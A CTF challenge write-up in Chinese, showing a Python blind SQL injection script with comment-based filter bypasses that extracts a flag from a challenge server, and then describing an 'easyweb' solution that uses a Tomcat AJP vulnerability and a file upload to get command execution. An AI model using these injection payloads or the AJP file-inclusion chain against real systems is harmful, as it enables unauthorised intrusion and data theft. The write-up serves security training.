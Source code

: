 ```python

		#flag,score
		# payload = "select/**/group_concat(table_name)/**/from/**/information_schema.tables/**/where/**/table_schema=database()" 

		#flag,value,id,name,score
		# payload = 'select/**/group_concat(column_name)/**/from/**/information_schema.columns/**/where/**/table_schema=database()'
		
		#wctf2020{e@sy_sq1_and_y0u_sc0re_1t}
		payload = "select/**/group_concat(value)/**/from/**/flag"
		payload = quote(payload)
		url='http://101.200.53.102:10114/?stunum=2/(ascii(substr(({}),{},1))={})'.format(payload, i, ord(char))
		r = requests.get(url)
		# print(r.text[2473:2499])
		if '666' in r.text:
			res += char
			print(res)
			break
```

## easyweb - 23 solves

>Author: longofo

这个题目考点就是上个月 tomcat 的 CVE，也是比赛前一天才决定放上去的，一开始我只想着读个flag就算了，但学长觉得直接读太没意思了，事实证明确实如此。

解题：配合上传文件，任意类型都可以，然后利用ajp在uri路径带jsp后缀时包含上传的文件并解析为jsp，通过rce，用命令find匹配flag。

一开始是想提示具体漏洞的，但是后来发现有几个师傅都做出来了就觉得还是可以的。

首先就是用 poc 读发现可以读到

![GnhPK0.png](https://s1.ax1x.com/2020/03/30/GnhPK0.png)

预期解是上传一个🐎，执行后回显，然后通过poc去读自己的🐎，但是因为是临时出题，所以有了一些非预期解，有师傅找到我说读 `/home/tomajp/.bashrc_history` 可以读到flag的位置。。。这个是真的没想到

下面是预期解解法：

![GnhAVU.png](https://s1.ax1x.com/2020/03/30/GnhAVU.png)

然后用poc读命令，本地测试 `ipconfig` ，可以得到回显。

![GnhFbT.png](https://s1.ax1x.com/2020/03/30/GnhFbT.png)

这样直接执行 find 命令来找 flag 的字眼，就可以在根目录上找到有一个叫 `flaaaag` 的目录，目录里面有一个 `what_you_want` 的文件，执行命令 `cat /flaaaag/what_you_want` 即可读到flag。

## train yourself to be godly - 1 solves

> Author: longofo
